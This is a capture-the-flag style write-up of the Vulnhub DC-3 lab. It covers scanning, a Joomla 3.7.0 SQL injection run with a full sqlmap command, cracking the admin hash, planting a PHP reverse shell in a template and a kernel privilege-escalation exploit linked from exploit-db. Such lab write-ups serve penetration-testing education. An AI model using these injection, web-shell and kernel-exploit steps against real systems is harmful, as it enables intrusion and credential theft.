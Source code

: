 ```yaml
---
layout: PostSimple
date: 2019-11-16
title:     "Vulnhub - DC 3"
tags: ['joomla','easy','php','kernel_exploit','sqli']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/1.1.png)
We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: <https://www.vulnhub.com/entry/dc-3,312/>


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/2.png)

## Finding the version is vulnerable

We can also use Metasploit to find Joomla's Version
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

### SQL Injection

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/4.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/6.png)

>-D = To denote which database

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/7.png)

It looks like ``#_users`` is interesting

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/9.png)

We got a hash for admin so lets try it with john 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/11.png)

## Getting Shell 

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/13.png)

## Privilege Escalation

It looks like Kernel is outdated<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/14.png)

Found there is an exploit from searchsploit

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/17.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/18.png)

``Flag``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/19.png)

Got ROOT!!









